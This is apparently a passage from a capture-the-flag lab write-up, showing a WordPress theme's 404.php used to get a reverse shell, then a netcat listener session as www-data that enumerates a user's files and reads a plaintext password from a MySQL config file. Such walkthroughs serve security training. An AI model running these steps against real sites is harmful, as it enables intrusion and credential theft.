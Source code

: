 
<br>

![image](https://github.com/user-attachments/assets/b55ecff1-f24a-405c-a4ea-8fcb4466ed34)


http://10.10.27.166/wordpress/wp-content/themes/twentytwenty/404.php



```bash
~/Allin1# nc -nlvp Attack_Port
Listening on 0.0.0.0 Attack_Port
Connection received on .....
...
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
...
$ ls -la
total 12
drwxr-xr-x  3 root   root   4096 Oct  5  2020 .
drwxr-xr-x 24 root   root   4096 Oct  5  2020 ..
drwxr-xr-x  6 elyana elyana 4096 Oct  7  2020 elyana
$ cd elyana
$ ls -la
total 48
drwxr-xr-x 6 elyana elyana 4096 Oct  7  2020 .
drwxr-xr-x 3 root   root   4096 Oct  5  2020 ..
-rw------- 1 elyana elyana 1632 Oct  7  2020 .bash_history
-rw-r--r-- 1 elyana elyana  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 elyana elyana 3771 Apr  4  2018 .bashrc
drwx------ 2 elyana elyana 4096 Oct  5  2020 .cache
drwxr-x--- 3 root   root   4096 Oct  5  2020 .config
drwx------ 3 elyana elyana 4096 Oct  5  2020 .gnupg
drwxrwxr-x 3 elyana elyana 4096 Oct  5  2020 .local
-rw-r--r-- 1 elyana elyana  807 Apr  4  2018 .profile
-rw-r--r-- 1 elyana elyana    0 Oct  5  2020 .sudo_as_admin_successful
-rw-rw-r-- 1 elyana elyana   59 Oct  6  2020 hint.txt
-rw------- 1 elyana elyana   61 Oct  6  2020 user.txt
$ cat user.txt
cat: user.txt: Permission denied
$ find / -user elyana -type f 2>/dev/null
/home/elyana/user.txt
/home/elyana/.bash_logout
/home/elyana/hint.txt
/home/elyana/.bash_history
/home/elyana/.profile
/home/elyana/.sudo_as_admin_successful
/home/elyana/.bashrc
/etc/mysql/conf.d/private.txt
$ cat /etc/mysql/conf.d/private.txt
user: elyana
password: E@syR18ght
$ 
```

